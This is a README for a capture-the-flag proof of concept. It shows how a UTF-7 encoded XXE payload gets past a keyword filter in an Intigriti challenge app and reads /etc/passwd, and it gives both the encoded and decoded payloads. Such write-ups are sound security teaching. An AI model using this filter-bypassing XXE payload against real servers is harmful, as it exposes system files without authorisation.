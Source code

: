## Initigriti XXE challenge POC

```
git clone https://github.com/rogueloop/intigriti-xxe-challenge.git
cd intigriti-xxe-challenge
php -S localhost:8000
```
Open `http://localhost:8000/test_form.html`
## challenge 
![Challenge Image](./486066540_18220552186292613_50405887802685493_n.jpeg)

## Solution 

The code has a sanitation for common XML keywords like SYSTEM and PUBLIC. We can use the utf 7 encoded payload from the intigriti article on XXE. The payload fetches the local file `/etc/passwd` from the server.
Make small changes to the payload change post_title to title and post_desc to desc. Since `+ACA-` is used for space in utf-7 the space between the `' SYSTEM '` will be filled so the match will fail. 

Payload used: 

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-title+AD4-+ACY-xxe+ADs-+ADw-/title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-desc+AD4-xyz+ADw-/desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```

Article link : https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities#:~:text=Exploiting%20XXE%20via%20UTF%2D7%20encoding 

Results: 

![Exploit](./exploit.png)

Here is a readable form of the payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <post>
        <title>&xxe;</title>
        <desc>xyz</desc>
    </post>
</data>
```
